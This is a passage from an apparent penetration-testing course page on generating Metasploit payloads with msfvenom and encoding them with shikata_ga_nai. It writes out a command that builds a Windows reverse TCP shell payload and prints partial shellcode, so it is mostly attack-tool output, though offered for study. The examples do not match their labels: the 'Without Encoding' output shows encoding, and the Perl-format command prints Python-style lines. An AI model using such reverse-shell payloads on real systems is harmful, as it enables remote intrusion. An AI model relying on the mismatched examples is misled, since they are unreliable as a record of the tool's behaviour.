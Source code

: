 After 2015, updates to these scripts have combined them within the `msfvenom` tool, which takes care of payload generation and Encoding. We will be talking about `msfvenom` in detail later on. Below is an example of what payload generation would look like with today's `msfvenom`:

### Generating Payload - Without Encoding

```

Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 381 (iteration=0)
x86/shikata_ga_nai chosen with final size 381
Payload size: 381 bytes
Final size of perl file: 1674 bytes
my $buf = 
"\xda\xc1\xba\x37\xc7\xcb\x5e\xd9\x74\x24\xf4\x5b\x2b\xc9" .
"\xb1\x59\x83\xeb\xfc\x31\x53\x15\x03\x53\x15\xd5\x32\x37" .
"\xb6\x96\xbd\xc8\x47\xc8\x8c\x1a\x23\x83\xbd\xaa\x27\xc1" .
"\x4d\x42\xd2\x6e\x1f\x40\x2c\x8f\x2b\x1a\x66\x60\x9b\x91" .
"\x50\x4f\x23\x89\xa1\xce\xdf\xd0\xf5\x30\xe1\x1a\x08\x31" .

<SNIP>
```

We should now look at the first line of the `$buf` and see how it changes when applying an encoder like `shikata_ga_nai`.


### Generating Payload - With Encoding

```
frank-106@htb[/htb]$ msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl -e x86/shikata_ga_nai

Found 1 compatible encoders
Attempting to encode payload with 3 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 326 (iteration=0)
x86/shikata_ga_nai succeeded with size 353 (iteration=1)
x86/shikata_ga_nai succeeded with size 380 (iteration=2)
x86/shikata_ga_nai chosen with final size 380
Payload size: 380 bytes
buf = ""
buf += "\xbb\x78\xd0\x11\xe9\xda\xd8\xd9\x74\x24\xf4\x58\x31"
buf += "\xc9\xb1\x59\x31\x58\x13\x83\xc0\x04\x03\x58\x77\x32"
buf += "\xe4\x53\x15\x11\xea\xff\xc0\x91\x2c\x8b\xd6\xe9\x94"
buf += "\x47\xdf\xa3\x79\x2b\x1c\xc7\x4c\x78\xb2\xcb\xfd\x6e"
buf += "\xc2\x9d\x53\x59\xa6\x37\xc3\x57\x11\xc8\x77\x77\x9e"

<SNIP>
```

#### Shikata Ga Nai Encoding

Source: https://hatching.io/blog/metasploit-payloads2/

